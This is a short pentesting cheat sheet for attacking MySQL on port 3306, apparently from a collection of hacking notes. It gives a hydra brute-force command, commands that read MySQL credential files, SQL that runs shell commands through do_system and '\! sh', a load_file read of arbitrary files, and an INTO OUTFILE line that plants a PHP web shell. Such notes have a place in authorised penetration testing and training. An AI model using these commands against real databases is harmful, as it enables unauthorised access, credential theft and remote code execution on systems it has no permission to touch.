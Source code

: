 # MYSQL - 3306

### Brute force <a href="#brute-force-6" id="brute-force-6"></a>

```bash
hydra -L <USERS_LIST> -P <PASSWORDS_LIST> <IP> mysql -vV -I -u
```

### Extracting MySQL credentials from files <a href="#extracting-mysql-credentials-from-files" id="extracting-mysql-credentials-from-files"></a>

```bash
cat /etc/mysql/debian.cnf
grep -oaE "[-_\.\*a-Z0-9]{3,}" /var/lib/mysql/mysql/user.MYD | grep -v "mysql_native_password"
```

### Connect <a href="#connect" id="connect"></a>

```bash
# Local
mysql -u <USER>
mysql -u <USER> -p

# Remote
mysql -h <IP> -u <USER>
```

### MySQL commands <a href="#mysql-commands" id="mysql-commands"></a>

```bash
show databases;
use <DATABASES>;

show tables;
describe <TABLE>;

select * from <TABLE>;

# Try to execute code
select do_system('id');
\! sh

# Read & Write
select load_file('<FILE>');
select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE '<OUT_FILE>'
```

#### Manual exploit <a href="#manual-exploit-1" id="manual-exploit-1"></a>

```bash
Cheatsheet :
	- https://www.asafety.fr/mysql-injection-cheat-sheet/
```
